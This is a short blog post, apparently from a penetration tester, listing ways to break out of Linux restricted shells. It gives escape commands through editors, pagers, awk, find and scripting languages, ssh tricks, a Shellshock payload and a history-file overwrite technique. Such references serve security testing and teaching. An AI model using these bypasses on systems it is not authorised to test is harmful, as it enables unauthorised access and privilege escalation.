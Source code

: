 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-23
---
```

This is a quick post on breaking out of linux jail/restricted shells.

Always run your reconnaissance!

* Run **env** to list out exported environment variables.
* **echo $SHELL** what shell are we in?
* **echo $PATH** what is our path set to?
* Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
* Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**

Quick wins from jail

* Can you run **cp**? Just copy a file into your path.
  * **`cp /bin/sh /a/dir/from/path; sh`**
* Is \'/\' allowed?
  * Run **`/bin/sh`**
* Can you use **export**?
  * **`export PATH=/bin:/usr/bin:$PATH`**
  * **`export SHELL=/bin/sh`**
* Do you have access to commands that let you execute different system commands?
  * **ftp: `!/bin/sh`**
  * **gdb: `!/bin/sh`**
  * **more/less/man: `?!/bin/sh`**
  * **vi/vim: `:!/bin/sh`**
  * **scp: `scp -S /tmp/naughty.sh x y:`**
  * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
  * **find `find / -name something -exec /bin/sh \;`**
* Don\'t forget about your favorite language!
  * **python: `python -c 'import os; os.system("/bin/bash")'`**
  * **perl: `perl exec "/bin/sh";`**
  * **ruby: `ruby exec "/bin/sh"`**
  * **lua: `lua os.execute('/bin/sh')`**  

Quick wins from outside jail

* Just execute commands before your shell is loaded.
  * **`ssh user@10.10.10.10 -t "/bin/sh"`**
* Don\'t start the rc profile
  * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
* Try shellshock
  * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**  

Getting creative

* Using **tee** to write a script.
  * **`echo 'evil code' | tee script.sh`**
* History file
  * Set **HISTFILE** variable to a file you want to overwrite
  * Set **HISTSIZE** variable to **0** then immediately to **100**
  * Execute lines that should be written to your file
  * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
